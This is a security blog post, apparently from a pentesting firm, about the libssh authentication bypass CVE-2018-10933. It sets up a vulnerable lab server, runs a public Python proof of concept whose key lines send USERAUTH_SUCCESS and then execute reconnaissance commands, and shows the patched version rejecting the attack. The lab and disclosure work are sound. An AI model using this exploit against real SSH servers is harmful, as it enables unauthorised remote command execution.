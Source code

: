 ```yaml
---
slug: libssh-bypass-cve/
title: LibSSH New Vulnerability
date: 2018-10-18
category: attacks
subtitle: New vulnerability on libssh CVE-2018-10933
tags: security, bug, libssh, pentesting
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330935/blog/libssh-bypass-cve/cover_ad5zp7.webp
alt: Painting a red and blue wall
description: Here, we will explain a vulnerability that allows a remote
  attacker to bypass authentication by sending a user-authenticated
  packet to the server.
keywords: Libssh, Security, CVE, Vulnerability, Pentesting, PoC,
  Ethical Hacking, Pentesting
author: Jonathan Armas
writer: johna
name: Jonathan Armas
about1: Systems Engineer, Security+
about2: '"Be formless, shapeless like water" Bruce Lee'
source: https://unsplash.com/photos/d6YyP28-Ycw
---
```


The new vulnerability in `LibSSH`, tracked as
[CVE-2018-10933](https://www.libssh.org/security/advisories/CVE-2018-10933.txt),
resides on the server code which can enable a client to bypass the
authentication process and create channels without permission. This
affects servers using versions `0.6` and above being used in server
mode.

The bug was discovered by Peter Winter-Smith of NCC Group, it’s like a
`jedi` trick:

- User: `Let me in`

- Server: NO

- User: `I’m authenticated, let me in`

- Server: OK, YOU’RE IN

Why does this happen? Because of the way `LibSSH` checks for
authentication when it receives an `SSH2_MSG_USERAUTH_SUCCESS` message
instead of the `SSH2_MSG_USERAUTH_REQUEST` message. It acts like the
user is already authenticated, so an attacker could bypass the
authentication and execute commands on the server.

## Building the enviroment

How does LibSSH work? It’s a `C` library to implement `SSHv2` protocol
on the client and server side. First, we need to write our server-side
code. We are going to use the sample that `LibSSH` has
(`samplesshd-cb.c`) and modify it for our purposes.

In the `ssh_channel_callbacks_struct` we are going to put the following
line in order to have the `exec` functionality:

**exec request.**

``` C
.channel_exec_request_function = exec_request
```

<div class="imgblock">

![channel-exec](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/channel-exec_nkvv1s.webp)

</div>

Next, add the `exec_request` function, this will take our commands and
execute them on the server:

``` C
static int exec_nopty(const char *command) {
            /* exec the requested command. */
            execl("/bin/sh", "sh", "-c", command, NULL);
            exit(0);

    return SSH_OK;
}

static int exec_request(ssh_session session, ssh_channel channel,
                        const char *command, void *userdata) {

    printf("Allocated exec  \n");
    (void) userdata;
    (void) session;
    (void) channel;

    return exec_nopty(command);
}
```

If you have `LibSSH` with version `0.7.4` you can simply save it,
compile it, and execute it. If not, you can use our method. We are going
to use a `docker` container and install both versions (a vulnerable one
and a patched one) and then, pass our code to the server and run it. The
example files can be downloaded [here](cve201810933.zip).

To build the container, open a `terminal` in the folder of the
`Dockerfile` and run this command:

``` bash
host$ docker build -t fluidattackscve201810933 .
```

This will download all the necessary files and compile all the sources
of `LibSSH`.

Then, to open the container simply run this command:

``` bash
host$ docker run -it -p 2222:2222 fluidattackscve201810933:latest /bin/bash
```

This is going to mirror our port `2222` to the container port `2222` in
order to be able to run our tests. Also, it will open a `bash` terminal
on the container machine where we will run our `LibSSH` server.

## Exploiting the vulnerability

In this case, we are going to use `LibSSH v0.7.4` and test the solution
with `LibSSH v0.7.6`. The `PoC` is on `Python` version `2`, and you can
check its source
[here](https://www.openwall.com/lists/oss-security/2018/10/17/5), but if
you downloaded our files, it’s there as `exploit.py`.

In order to run this `PoC` you will need `paramiko`. You can install it
by running:

``` bash
host$ pip install paramiko
```

In the container, run the following command to start the vulnerable
`LibSSH` server:

``` bash
container$ ./tmp/libssh-0.7.4/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
```

The verbose flag is to see what is sending and receiving our server.

Then, in your machine run the exploit with:

``` bash
host$ python exploit.py
```

If you check your container you can see this:

<div class="imgblock">

![ssh-bypass](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/ssh-bypass_zj8e91.webp)

</div>

When the server is expecting the `SSH2_MSG_USERAUTH_REQUEST`, we are
sending an `SSH2_MSG_USERAUTH_SUCCESS`.

``` python
m.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
transport._send_message(m)
```

The server accepts it, and we bypassed the authentication. Then, we can
send our commands to the server with:

``` python
cmd_channel.exec_command("whoami; id; ls -la /; ip addr")
```

<div class="imgblock">

![command-exec](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/command-exec_yuqxav.webp)

</div>

## The solution

<div class="imgblock">

![dont-work](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/dont-work_qzntdl.webp)

</div>

The LibSSH version `0.7.6` doesn’t have this vulnerability. We can test
it, too, in our container. We just need to run:

``` bash
container$ ./tmp/libssh-0.7.6/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
```

And on our machine the exploit again:

``` bash
host$ python exploit.py
```

<div class="imgblock">

![no-vulnerable](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/no-vulnerable_z7vihm.webp)

</div>

What’s happening? We send the `SSH2_MSG_USERAUTH_SUCCESS`. The server
receives it, but it won’t authenticate us because they added a
validation on their code. When the packet is
`SSH2_MSG_USERAUTH_SUCCESS`, then, it checks for the authentication
state. If it is not one of the valid states, it denies the packet.

<div class="imgblock">

![Code on
src/packet.c](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/solution_uaqs60.webp)

</div>

Here you can see the difference between responses for a vulnerable
version and a non-vulnerable one.

<div class="imgblock">

![Vulnerable](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/vulnerable_mbwn5t.webp)

</div>

<div class="imgblock">

![Non-vulnerable](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/no-vulnerable_z7vihm.webp)

</div>

If you have `LibSSH` in your server, and you are using a server
component, you should install the updated, or patched, versions of
`LibSSH`.
